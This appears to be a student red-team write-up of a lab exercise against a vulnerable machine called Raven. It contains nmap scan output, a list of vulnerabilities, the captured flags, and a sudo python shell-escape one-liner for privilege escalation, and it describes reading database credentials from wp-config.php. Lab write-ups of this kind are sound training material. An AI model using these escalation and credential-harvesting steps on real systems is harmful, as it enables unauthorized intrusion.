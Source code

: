 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

`nmap` scan results for each machine reveal the below services and OS details:  
  *omitted output from machines on the network that are not the "Target 1"*


```bash
$ nmap -sV -A 192.168.1.90/24

# Nmap 7.80 scan initiated Sat Mar 27 10:00:43 2021 as: nmap -sV -A -oN nmap_out.txt 192.168.1.110
Nmap scan report for 192.168.1.110
Host is up (0.00082s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42312/tcp   status
|   100024  1          49348/tcp6  status
|   100024  1          54108/udp   status
|_  100024  1          57255/udp6  status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3h39m59s, deviation: 6h21m02s, median: 0s
|_nbstat: NetBIOS name: TARGET1, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.2.14-Debian)
|   Computer name: raven
|   NetBIOS computer name: TARGET1\x00
|   Domain name: local
|   FQDN: raven.local
|_  System time: 2021-03-28T04:00:57+11:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-27T17:00:57
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.82 ms 192.168.1.110

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 27 10:00:57 2021 -- 1 IP address (1 host up) scanned in 13.79 seconds
```

This scan identifies the services below as potential points of entry:
- Target 1
  - OpenSSH v6.7p1 22/tcp
  - Apache v2.4.10 80/tcp
  - Samba v4.2.14 445/tcp, 139/tcp


The following vulnerabilities were identified on each target:
- Target 1
  - Misconfiguration of `steven` user to run `python` as `sudo`
  - Misconfiguration of `michael` user with password the same as his name
  - OpenSSH configured with weak authentication, password only. 
  - 22/tcp was not filtered, accessible publicly. 
  - CVE-2017-7494 - Samba exec code vulnerability - 10.0 severity
  - CVE-2017-3167 - Apache authentication bypass vulnerability - 7.5 severity
  - Misconfiguration of Website with sensitive data publicly available in 
			source code.


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d  
      - **Exploit Used**  
         - Sensitive data publicly available  
         - Used the web browser's console to view source code   
         - Initially this flag was found with `grep` once logged in as any user
         - `grep -ER flag /var/www/html/`  

![flag1a](screenshots/24-flag_1a.png)
![flag1b](screenshots/24-flag_1b.png)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c  
      - **Exploit Used**  
          - Weak SSH authentication  
          - Once I was able to connect via SSH as any user I was able to find this flag  
          - `find / -type f -iname "flag?.txt" -exec cat {} \; 2>/dev/null`  

![flag2](screenshots/24-flag_2.png)

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2  
      - **Exploit Used**  
          - Misconfiguration of `steven` user to run `python` with root permissions  
  	     	- `sudo python -c 'import os; os.system("/bin/sh")'`  
              - Once the permissions were escalated, I was able to read the `wp-config.php` file which includes the SQL database login information in clear text.   
              - Then, with the login information for the database was entered I was able to query the database for flags 3 and 4  

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce  
      - **Exploit Used**  
      - *See above flag for information.*  

![priv_escalate](screenshots/24-python_escalate.png)
![wp-config](screenshots/24-wp-config_1.png)
![flag3and4](screenshots/24-flag_3_and_4.png)
